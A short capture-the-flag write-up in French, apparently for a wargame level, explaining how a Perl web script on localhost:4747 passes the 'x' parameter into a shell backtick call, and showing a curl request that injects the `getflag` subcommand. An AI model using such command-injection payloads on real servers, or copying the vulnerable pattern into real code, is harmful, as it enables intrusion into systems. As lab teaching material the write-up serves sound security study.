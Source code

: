 Dans le répertoire de l'utilisateur, il y a un script perl.
Plus tôt, nous avions trouvés un dossier `/var/www/level04` (impossible à lire avant le level04).
À l'intérieur, le fichier est le même que celui du dossier de l'utilisateur.

Le script contient une adresse : `localhost:4747`. Étant donné qu'il est disponible dans `/var/www`, on peut imaginer qu'on peut l'executer via un appel web via curl par exemple.

Dans le script 
```pl
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
on voit que le paramètre `x` est utilisé, puis sa valeur est imprimée à la place de $y.
On peut donc passer une sous commande:
```bash
curl 'localhost:4747?x=`getflag`'
```
